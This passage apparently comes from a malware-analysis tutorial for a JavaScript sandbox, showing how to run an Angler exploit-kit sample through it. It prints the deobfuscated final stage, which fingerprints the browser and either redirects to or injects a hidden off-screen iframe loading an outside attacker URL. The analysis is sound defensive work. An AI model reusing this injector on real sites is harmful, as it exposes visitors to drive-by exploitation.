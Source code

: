     document._addElementById(id, content);

and save as [malware/angler/angler.js](malware/angler/angler.js).

Run the analysis:

    node jailme.js malware/angler/angler.js
    
Eventually capture the output into [angler_output.txt](malware/angler/angler_output.txt):

    node jailme.js malware/angler/angler.js > malware/angler/angler_output.txt

Deobfuscating the final stage:

    function() {
        if (document.body != null && typeof document.body != "undefined") {
            clearInterval(zfxhYOGvfrlHUNJrZufQnWPtohkYAQEEdV);
            if (typeof window["v_bcd50d9482665cd4e129a272c76799e6"] == "undefined") {
                window["v_bcd50d9482665cd4e129a272c76799e6"] = 1;
                var YJEsPBctdgLUVvQpXvqYKJmoYsElJUhXr = (DfPJmMLOnxPanSoeHQuOrDdSoCPJGAaRhYURtgyUD() && CCtJDLZQbieboJvsIyatBMZhUvTpzaQcyCXR());
                var YBMlxOjmRXjqriuNuiEQPAJsQuuwPLiQW = !YJEsPBctdgLUVvQpXvqYKJmoYsElJUhXr && !!window.chrome && window.navigator.vendor === "Google Inc.";
                var rfddjrtkllJefuAgPfwCNdpgltcAYetudMCia = -1;
                var NOpYEscCPxFAjNAQevxjqvOuLilysKlWWoayIjJeS = "http://beladonna33.ga/052F";
                if (hgvANEpEuWeKcGvvwzyKQIhEoKIHuYnyaOtvVW() && rfddjrtkllJefuAgPfwCNdpgltcAYetudMCia == 1) {
                    if ((navigator.userAgent.match(/iPhone/i)) || (navigator.userAgent.match(/iPod/i))) {
                        location.replace(NOpYEscCPxFAjNAQevxjqvOuLilysKlWWoayIjJeS)
                    } else {
                        window.location = NOpYEscCPxFAjNAQevxjqvOuLilysKlWWoayIjJeS;
                        document.location = NOpYEscCPxFAjNAQevxjqvOuLilysKlWWoayIjJeS
                    }
                } else {
                    if ((YJEsPBctdgLUVvQpXvqYKJmoYsElJUhXr && !YBMlxOjmRXjqriuNuiEQPAJsQuuwPLiQW && !hgvANEpEuWeKcGvvwzyKQIhEoKIHuYnyaOtvVW())) {
                        var blDiNORLBvDHjFRqgxXSMVgnfhriGmw = "<div style=\"position:absolute;left:-2808px;\"><iframe width=\"27px\" src=\"" + NOpYEscCPxFAjNAQevxjqvOuLilysKlWWoayIjJeS + "\" height=\"27px\"></iframe></div>";
                        var wudhWcxLZqnlyHWLSZexIwyPtiJtGDxL = document.getElementsByTagName("div");
                        if (wudhWcxLZqnlyHWLSZexIwyPtiJtGDxL.length == 0) {
                            document.body.innerHTML = document.body.innerHTML + blDiNORLBvDHjFRqgxXSMVgnfhriGmw
                        } else {
                            var dl_name = wudhWcxLZqnlyHWLSZexIwyPtiJtGDxL.length;
                            var eBYogcDktAguizQshmLzdvYhWtSflHvZqVuqIc = Math.floor((dl_name / 2));
                            wudhWcxLZqnlyHWLSZexIwyPtiJtGDxL[eBYogcDktAguizQshmLzdvYhWtSflHvZqVuqIc].innerHTML = wudhWcxLZqnlyHWLSZexIwyPtiJtGDxL[eBYogcDktAguizQshmLzdvYhWtSflHvZqVuqIc].innerHTML + blDiNORLBvDHjFRqgxXSMVgnfhriGmw
                        }
                    }
                }
            }
            OncYaaSjwrEWhyHWevaHtkypMUSZxnIrtIK()
        }
    }
